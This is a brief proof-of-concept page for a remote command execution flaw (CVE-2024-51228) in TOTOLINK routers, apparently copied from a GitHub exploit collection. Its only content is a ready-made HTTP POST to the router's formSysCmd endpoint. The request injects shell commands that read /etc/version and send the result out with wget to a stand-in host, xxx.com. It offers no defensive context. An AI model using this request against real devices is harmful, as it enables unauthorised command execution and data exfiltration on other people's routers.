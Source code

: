 # CVE_2024_51228

from: https://github.com/wy876/POC/blob/main/%E8%B7%AF%E7%94%B1%E5%99%A8/TOTOLINK%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2024-51228).md

product: TOTOLINK
```
POST /boafrm/formSysCmd HTTP/1.1
Host: {Target IP}:{Target Port}
User-Agent: curl/7.81.0
Accept: */*
Content-Length: <length>
Content-Type: application/x-www-form-urlencoded

sysCmd=a%3D%24(cat%20%2Fetc%2Fversion)%3Bwget%20http%3A%2F%2Fxxx.com%3A8080%2F%3Fa%3D%22%24a%22
```

